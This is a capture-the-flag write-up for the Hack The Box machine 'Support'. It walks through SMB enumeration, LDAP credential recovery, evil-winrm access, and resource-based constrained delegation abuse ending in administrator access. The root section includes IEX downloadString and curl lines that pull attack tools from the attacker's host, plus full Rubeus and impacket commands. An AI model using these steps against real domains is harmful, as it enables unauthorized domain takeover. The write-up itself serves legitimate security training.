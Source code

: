 ## Support

Difficulty: Easy

### User Flag

```
rustscan -a 10.10.11.174 --ulimit 5000 -- -A -sV -sC -oN nmap.txt -Pn
```

![nmap](https://github.com/b1d0ws/OSCP/assets/58514930/c869072a-f931-410c-b780-52c5d2450141)

<br>

Listing shares, support-tools draws our attention.

```
smbclient -L //support.htb0

crackmapexec smb 10.10.11.174 --shares -u 'DoesNotExist' -p ''
```

![enumeratingShares](https://github.com/b1d0ws/OSCP/assets/58514930/a5541cff-3666-4e33-9b71-c9232a24c3fb)

<br>

Inside smb with null session, UserInfo.exe.zip is interesting.

```
smbclient -U "" //support.htb/support-tools
```

![gettingUserInfo](https://github.com/b1d0ws/OSCP/assets/58514930/a8daea02-4cc4-410a-9991-93cc8f8ec152)

<br>

UserInfo seems to connect on support.htb with LDAP connections. We can intercept the executable in wireshark to get credentials.  

We could also break this reversing with dnSpy and crack the password with cyberchef, but this will be on the end of this write up.

![wireshark](https://github.com/b1d0ws/OSCP/assets/58514930/afaa754c-1950-49c0-b858-073587f554c2)

<br>

With this LDAP credentials, we can use ldapsearch to find DC information.  

You can search users with CN=<user>. Support password is on "Info" field.

```
# Testing credentials
crackmapexec smb 10.10.11.174 -d support -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'

ldapsearch -x -D ldap@support.htb -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -H ldap://10.10.11.174 -b "dc=support,dc=htb"  > ldap.out
```

![ldapSearch](https://github.com/b1d0ws/OSCP/assets/58514930/ab35b6a9-d6d8-4418-b2a8-6d10b9b09229)

![ldapOut](https://github.com/b1d0ws/OSCP/assets/58514930/56cc6410-ab6c-4fd2-a64e-c161642129ef)

<br>

We can login with this credentials on evil-winrm.

```
evil-winrm -u support -p 'Ironside47pleasure40Watchful' -i support.htb
```

![evilWinRM](https://github.com/b1d0ws/OSCP/assets/58514930/b97203c9-802f-412c-b26f-53c798b28e6c)

<br>

### Root Flag

Enumerate that the machine is a domain controller and add the information to /etc/hosts

```
Get-ADDomain
```

![dcInfo](https://github.com/b1d0ws/OSCP/assets/58514930/ba5e51a0-15a7-42e4-98ac-31de8da02238)

<br>

Enumerate Groups our user belongs

```
whoami /groups
```

![groups](https://github.com/b1d0ws/OSCP/assets/58514930/ea15fa11-ea70-4a30-b5bb-e5de0b46ded2)

<br>

Interesting groups are: Authenticated Users and Shared Support Accounts.  

Let's use Bloodhound to identify what we can do with this.

```
sudo neo4j start
bloodhound
```

Upload SharpHound.exe to collect AD data, it is inside BloodHound/Collectors.

```
upload SharpHound.exe
download 20230830121419_BloodHound.zip
```

![sharpHound](https://github.com/b1d0ws/OSCP/assets/58514930/ec0e8bd3-6216-47ce-9398-e37d82badc92)

<br>

We can mark Support User as owned and this will show us that our user has Group Delegated Object Control.

Clicking, we see that the group Shared Support Accounts has GenericAll privileges on DC.  

![bloodHound](https://github.com/b1d0ws/OSCP/assets/58514930/9f03e893-d5f0-41f1-9246-79a004b91418)

<br>

Right click on the line called GenericAll and select Help to see how to exploit this privilege.  

![tutorialBloodhound](https://github.com/b1d0ws/OSCP/assets/58514930/2cf8007b-27f8-4449-93c4-ffc3277cfafc)

<br>

Abusing GenericAll to perform *Resourced Based Constrained Delegation*:

```
wget https://raw.githubusercontent.com/Kevin-Robertson/Powermad/master/Powermad.ps1
git clone https://github.com/PowerShellMafia/PowerSploit.git -b dev
git clone https://github.com/Flangvik/SharpCollection
```

We need powerview that is inside PowerSploit/Recon and rubeus that is inside SharpCollection/NetFramework_4.7_Any.

```
curl 10.10.14.21:8000/Rubeus.exe -o Rubeus.exe
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21:8000/Powermad.ps1')
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21:8000/PowerView.ps1')
```

![downloadResources](https://github.com/b1d0ws/OSCP/assets/58514930/12070feb-49c2-452f-8f1f-adf5eb3ee70a)

<br>

Now we can follow Bloodhound guide to exploit this.

```
# Looking how many machines we can create
Get-DomainObject -Identity 'DC=SUPPORT,DC=HTB' | select ms-ds-machineaccountquota

# Generating Ticket
New-MachineAccount -MachineAccount attackersystem -Password $(ConvertTo-SecureString 'Summer2018!' -AsPlainText -Force)

$ComputerSid = Get-DomainComputer attackersystem -Properties objectsid | Select -Expand objectsid

$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} 

.\Rubeus.exe hash /password:Summer2018!

.\Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:administrator /msdsspn:cifs/dc.support.htb /ptt

# Create a ticket file
nano ticket.kirbi

# Remove spaces in vi
:%s/ //g 

mv ticket.kirbi ticket.kirbi.b64

base64 -d ticket.kirbi.64 > ticket.kirbi

impacket-ticketConverter ticket.kirbi ticket.ccache

KRB5CCNAME=ticket.ccache impacket-psexec -k -no-pass support.htb/administrator@dc.support.htb
```

![privEsc](https://github.com/b1d0ws/OSCP/assets/58514930/c1cb0f16-d384-40bc-b812-6c0ebb39005a)

#### Other methods to get ldap password

First we can get the function and encrypted password with [dnsSpy](https://github.com/dnSpy/dnSpy).

![dnsSpy](https://github.com/b1d0ws/OSCP/assets/58514930/fe667dec-b7f7-47bc-99d7-9e1504122e38)

<br>

We can decrypt if cyberchef.

![cyberChef](https://github.com/b1d0ws/OSCP/assets/58514930/82c4a7d1-c12b-4097-aba7-e3d94149bce7)

<br>

Or create a python script to decrypt it.

```python
import base64
from itertools import cycle

enc_password = base64.b64decode("0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E")
key = b"armando"
key2 = 223
res = ''

for e,k in zip(enc_password, cycle(key)):
	res += chr(e ^ k ^ key2)
print(res)
```
